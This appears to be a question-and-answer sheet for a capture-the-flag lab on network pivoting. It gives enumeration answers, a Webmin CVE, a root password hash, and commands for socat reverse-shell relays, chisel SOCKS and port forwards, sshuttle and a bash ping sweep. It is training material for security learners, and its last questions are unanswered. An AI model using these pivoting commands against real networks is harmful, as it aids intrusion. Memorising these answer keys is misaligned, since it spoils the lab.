 ### Enumeration
#### How many of the first 15000 ports are open on the target?  
  4  
#### What OS does Nmap think is running?
centos  

#### Open the IP in your browser -- what site does the server try to redirect you to?
https://thomaswreath.thm/

#### Read through the text on the page. What is Thomas' mobile phone number?
+447821548812 

#### Look back at your service scan results: what server version does Nmap detect as running here?
MiniServ 1.890 (Webmin httpd)

#### What is the CVE number for this exploit?
CVE-2019-15107

### Exploitation

#### Run the exploit and obtain a pseudoshell on the target!
#### Which user was the server running as?
root

#### What is the root user's password hash?
i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1

#### What is the full path to this file?
/root/.ssh/id_rsa

####  Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?
tunneling

#### Research: Not covered in this Network, but good to know about. Which Metasploit Framework Meterpreter command can be used to create a port forward?
portfwd

#### What is the absolute path to the file containing DNS entries on Linux?
/etc/resolv.conf

#### What is the absolute path to the hosts file on Windows?
C:\Windows\System32\drivers\etc\hosts

#### How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done


### Proxychains and FoxyProxy
####  What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?
socks4 127.0.0.1 4242  
#### What command would you use to telnet through a proxy to 172.16.0.100:23?
proxychains telnet 172.16.0.100 23
#### You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?
FP

#### If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
ssh -L 8000:127.0.0.1:80 user@172.16.0.50


### plink.exe
#### What tool can be used to convert OpenSSH keys into PuTTY style keys?
 puttygen

### Socat
####  Which socat option allows you to reuse the same listening port for more than one connection?
reuseaddr

### If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? Use TCP port 8000 for the server listener, and do not background the process.
  ./socat tcp-l:8000 tcp:172.16.0.200:443

#### What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
./socat tcp-l:2222, fork,reuseaddr tcp:172.16.0.100:22 &

### Chisel

#### Use port 4242 for the listener and do not background the process.
./chisel server -p 4242 --reverse

#### What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
./chisel client 172.16.0.200:4242 socks

#### How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
./chisel client 172.16.0.100:3306 R:33060:172.16.0.200 &

#### If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80

### Sshuttle
#### How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16
sshuttle -r pwned@172.16.20.7 172.16.0.0/16

#### What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?
--ssh-cmd "ssh -i priv_key"

#### You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
-x 172.16.0.100



#### Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?  
2

#### In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)  
100, 150

#### Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?     
150

#### Let's assume that the other host is inaccessible from our current position in the network. Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?  


#### Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?

